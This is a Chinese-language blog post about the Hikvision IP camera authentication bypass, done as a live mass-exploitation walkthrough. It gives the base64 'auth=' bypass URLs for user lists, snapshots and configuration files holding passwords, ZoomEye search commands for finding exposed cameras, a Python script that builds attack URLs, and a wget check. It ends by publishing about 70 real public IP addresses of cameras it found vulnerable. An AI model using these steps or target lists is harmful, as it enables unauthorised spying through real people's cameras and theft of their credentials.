


HikvisionIP摄像头后台绕过
2022-12-24 • 网络安全-技术 • ATTACKJSONMONITOR •#起因
最近在学校用Kali扫内网ms17-010的时候，发现扫了一大堆主机居然只扫出来两个，而且在攻击时发现的确没用。
诚然，永恒之蓝作为2017年的漏洞，早已在当时被紧急修复，五年过去依旧存在这个漏洞的Windows7设备已经寥寥无几了。但是在用nmap扫描时，我发现学校内有 Hikvision IP camera设备，大概都是2016年装上的，于是回家一查，果然存在一个后台绕过漏洞。
但是不巧的是，因为疫情封校还没法回去实践，于是在这里应用一下，看看公网上还有多少设备存在这漏洞。
#漏洞介绍
// 摘抄自 packetstormsecurity
Hikvision camera API includes support for proprietary HikCGI protocol, which exposes URI endpoints through the camera's web interface. The HikCGI protocol handler checks for the presence of a parameter named "auth" in the query string and if that parameter contains a base64-encoded "username:password" string, the HikCGI API call assumes the idntity of the specified user. The password is ignored.
Virtually all Hikvision products come with a superuser account named "admin", which can be easily impersonated.
"?auth="+[base64编码的用户名:密码]的形式轻松绕过。这个 [base64编码的用户名:密码]仅需要用户名对应，密码是什么无所谓，所以我们可以直接随便加密一个：
admin:11
↓base64↓
YWRtaW46MTEK
// 获取用户列表
http://camera.ip:port/Security/users?auth=YWRtaW46MTEK
// 获取快照
http://camera.ip:port/onvif-http/snapshot?auth=YWRtaW46MTEK
// 获得摄像头配置
http://camera.ip/System/configurationFile?auth=YWRtaW46MTEK
<?xml version="1.0" encoding="UTF-8"?>
<UserList version="1.0" xmlns="http://www.hikvision.com/ver10/XMLSchema">
<User version="1.0" xmlns="http://www.hikvision.com/ver10/XMLSchema">
<id>1</id>
<userName>admin</userName>
<priority>high</priority>
<ipAddress>0.0.0.0</ipAddress>
<macAddress>00:00:00:00:00:00</macAddress>
<userLevel>Administrator</userLevel>
</User>
</UserList>

而获得配置则会直接得到一份当前摄像头的配置情况，包括账号密码。
值得注意的是，这里的配置其实也简单加密了一下，实际上的密钥似乎是abcdefg，不过这不难解决，在github上就有相关的解密工具。 Github@WormChickenWizard/hikvision-decrypter
解密前它是一个二进制文件，解密后它同样也是一个二进制文件，不过解密后可以直接用Hex编辑器搜索
admin，密码就在它的下两行。
#实践
0x01 - 获得目标:
这里借助zoomeye的命令行插件请求，方便后续的数据导出。(网页版zoomeye导出数据需会员)
可自Github下载: Github@knownsec/ZoomEye-python
首先需要配置这个命令行工具，这里略，因为在Github仓库内有详细的中文文档说明。仅需填入API key即可。
之后我们就可以使用这个搜索了，例子如下:
zoomeye search 'iconhash: "89b932fcc47cf4ca3faadb0cfdef89cf" +2016 +country:"CN" +after:"2021-12-22" +app:"Hikvision IP camera httpd"' -num 20
 解析一下以上搜索的命令:
接下来就是导出，因为工具本来就有
-save选项，十分简单
zoomeye search 'iconhash: "89b932fcc47cf4ca3faadb0cfdef89cf" +2016 +country:"CN" +after:"2021-12-22" +app:"Hikvision IP camera httpd"' -num 1000 -save port
-save port，表示额外存储端口(默认必存IP)，另外将数量至1000，有需要也可以设置多一些。 不过因为导出是每次请求20个结果的缘故需要时间，等待导出即可。
导出的结果如下:
{'ip': '221.0.16.166', 'port': 8808}
{'ip': '60.216.142.12', 'port': 8808}
{'ip': '27.211.181.181', 'port': 8808}
{'ip': '61.132.107.234', 'port': 32400}
{'ip': '111.23.146.92', 'port': 32400}
{'ip': '113.234.39.166', 'port': 995}
{'ip': '112.232.246.135', 'port': 8808}
{'ip': '112.232.247.90', 'port': 8808}
{'ip': '39.71.193.248', 'port': 8808}
{'ip': '39.71.192.8', 'port': 8808}
{'ip': '114.33.140.212', 'port': 8883}
{'ip': '137.189.185.154', 'port': 8005}
{'ip': '182.135.224.187', 'port': 8005}
{'ip': '112.240.5.75', 'port': 8005}
{'ip': '1.65.200.1', 'port': 8883}
{'ip': '114.246.201.88', 'port': 88}
{'ip': '114.246.216.66', 'port': 88}
{'ip': '119.145.77.202', 'port': 88}
{'ip': '182.84.45.51', 'port': 88}
{'ip': '122.247.197.186', 'port': 88}
{'ip': '122.244.52.251', 'port': 88}
{'ip': '122.240.1.130', 'port': 88}
{'ip': '122.245.80.91', 'port': 88}
{'ip': '122.240.204.77', 'port': 88}
......
0x02 - 格式重组:
接下来就是去验证每个IP是否有效。
我这里是采用获取快照的方式，可以方便的用wget的--spider模式确认是否能访问到快照。
那么就需要先去得到有效的url，在上面zoomeye导出的时候会生成一个json，我们在这里可以直接每行解析一下，将完成结果写入到另一个文件中。
# python 3
# -*- coding: utf-8 -*-
import os
import time
from datetime import datetime
import json
urls0 = 'https://'
urls1 = 'http://'
urls3 = '/onvif-http/snapshot?auth=YWRtaW46MTEK'
# 初始化
startTime = time.localtime()
startDateTime = datetime.now()
print('[初始化进程运行] - '+time.strftime("%H:%M:%S",time.localtime()))
if 'targets.json' in os.listdir('.'):
with open(r'./targets.json','r') as fp:
l1 = fp.readlines()
print(f' 检测到目标，共载入{len(l1)}个数据')
else:
print('[Error]未检测到targets.json，无目标')
exit()
print('[主进程运行]')
for i in range(len(l1)):
jsons = json.loads(str(l1[i]).replace('\n','').replace('\'','"'))
url2 = str(jsons['ip'])+':'+str(jsons['port'])
with open(r'./ok.info','a') as f2:
f2.write(urls1+url2+urls3+'\n')
print('\r'+time.strftime("%H:%M:%S",time.localtime())+'» 总进度:['+'|'*(i//(len(l1)//50)+1)+' '*(50-(i//(len(l1)//50))-1)+']'+str(i)+'/'+str(len(l1))+' - '+str(round(float((i/len(l1)))*100,2))+'%')
targets.json中的全部ip转换为url形式存储在 result.txt中，每行一个：
http://221.0.16.166:8808/onvif-http/snapshot?auth=YWRtaW46MTEK
http://60.216.142.12:8808/onvif-http/snapshot?auth=YWRtaW46MTEK
http://27.211.181.181:8808/onvif-http/snapshot?auth=YWRtaW46MTEK
http://61.132.107.234:32400/onvif-http/snapshot?auth=YWRtaW46MTEK
http://111.23.146.92:32400/onvif-http/snapshot?auth=YWRtaW46MTEK
http://113.234.39.166:995/onvif-http/snapshot?auth=YWRtaW46MTEK
http://112.232.246.135:8808/onvif-http/snapshot?auth=YWRtaW46MTEK
http://112.232.247.90:8808/onvif-http/snapshot?auth=YWRtaW46MTEK
http://39.71.193.248:8808/onvif-http/snapshot?auth=YWRtaW46MTEK
http://39.71.192.8:8808/onvif-http/snapshot?auth=YWRtaW46MTEK
http://114.33.140.212:8883/onvif-http/snapshot?auth=YWRtaW46MTEK
http://137.189.185.154:8005/onvif-http/snapshot?auth=YWRtaW46MTEK
http://182.135.224.187:8005/onvif-http/snapshot?auth=YWRtaW46MTEK
http://112.240.5.75:8005/onvif-http/snapshot?auth=YWRtaW46MTEK
http://1.65.200.1:8883/onvif-http/snapshot?auth=YWRtaW46MTEK
http://114.246.201.88:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://114.246.216.66:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://119.145.77.202:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://182.84.45.51:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://122.247.197.186:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://122.244.52.251:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://122.240.1.130:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://122.245.80.91:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://122.240.204.77:88/onvif-http/snapshot?auth=YWRtaW46MTEK
......
0x03 - 验证目标:
wget --tries 1 --timeout 1 -nv -o data.log --spider -i result.txt
上面设置的超时时间与超时重试次数都是1，耗时较短，如果有耐心可以设置大一点。
完成后，data.log中的结果应该如下:
failed: Connection timed out.
2022-12-23 18:05:11 URL: http://39.89.12.34:88/onvif-http/snapshot?auth=YWRtaW46MTEK 200 OK
failed: Connection timed out.
Username/Password Authentication Failed.
failed: Connection timed out.
failed: Connection timed out.
Read error (Connection timed out) in headers.
failed: Connection timed out.
Username/Password Authentication Failed.
failed: Connection timed out.
failed: Connection timed out.
failed: Connection timed out.
Username/Password Authentication Failed.
failed: Connection timed out.
failed: Connection refused.
2022-12-23 18:05:36 URL: http://27.223.48.100:88/onvif-http/snapshot?auth=YWRtaW46MTEK 200 OK
failed: Connection timed out.
failed: Connection refused.
failed: Connection timed out.
failed: Connection refused.
failed: Connection refused.
Username/Password Authentication Failed.
2022-12-23 18:05:39 URL: http://221.215.171.198:81/onvif-http/snapshot?auth=YWRtaW46MTEK 200 OK
failed: Connection refused.
......
为了方便我们进一步处理，用正则表达式替换以下字符为空:
// 以下不需要使用正则表达式
Username/Password Authentication Failed.
failed: Connection timed out.
failed: Connection refused.
Read error (Connection timed out) in headers.
Remote file does not exist -- broken link!!!
200 OK
// 以下需要使用正则表达式
^.*:$ // 去除坏链
[0-9]*-[0-9]*-[0-9]* [0-9]*:[0-9]*:[0-9]* URL: //去除时间
[ \t\n]*$ //去除空行&空格
我这里试了一下，1000个ip中大概有70个存在此漏洞，也就是7%吧
附最终结果：
http://221.0.16.166:8808/onvif-http/snapshot?auth=YWRtaW46MTEK
http://27.211.181.181:8808/onvif-http/snapshot?auth=YWRtaW46MTEK
http://137.189.185.154:8005/onvif-http/snapshot?auth=YWRtaW46MTEK
http://114.246.216.66:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://116.132.38.26:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://61.155.60.154:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://111.17.186.222:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://60.211.176.138:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://139.170.232.34:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://60.29.192.154:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://218.17.121.235:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://222.135.125.233:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://120.211.63.194:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://120.236.75.243:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://115.238.136.42:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://39.89.12.34:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://27.9.47.186:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://220.132.146.242:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://110.167.76.104:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://112.16.175.58:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://222.184.120.162:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://119.120.224.118:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://180.161.47.184:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://180.161.91.12:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://211.140.148.199:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://211.143.231.238:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://223.68.200.14:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://114.218.22.55:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://59.173.49.211:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://119.1.107.250:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://27.200.21.66:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://27.196.174.10:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://103.100.64.75:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://180.158.150.171:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://218.203.76.97:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://117.86.108.6:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://116.232.75.214:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://116.230.31.118:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://125.123.232.251:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://183.214.115.6:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://101.74.233.94:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://180.165.218.224:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://114.88.37.77:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://114.95.248.231:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://220.178.172.134:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://220.180.211.97:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://124.77.94.21:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://114.233.4.106:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://114.231.243.80:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://125.90.3.102:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://125.95.237.71:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://14.120.74.123:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://223.82.14.139:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://223.94.87.221:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://223.94.87.221:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://223.82.36.194:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://116.11.185.163:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://183.250.109.133:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://183.250.246.173:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://183.247.200.105:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://183.248.215.239:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://183.196.178.34:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://115.171.0.224:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://183.233.250.61:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://183.238.201.243:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://111.194.239.146:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://61.131.71.114:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://218.94.67.130:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://218.88.5.67:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://183.63.221.22:88/onvif-http/snapshot?auth=YWRtaW46MTEK
http://137.189.185.154:8005/onvif-http/snapshot?auth=YWRtaW46MTEK
......
其余如何利用漏洞的环节不再赘述，不要用于非法用途。
#后言
上述就是对2017年 HikvisionIP摄像头后台绕过漏洞的应用， 终。
原创内容使用 知识共享 署名-非商业性使用-相同方式共享 4.0 (CC BY-NC-ND 4.0) 协议授权。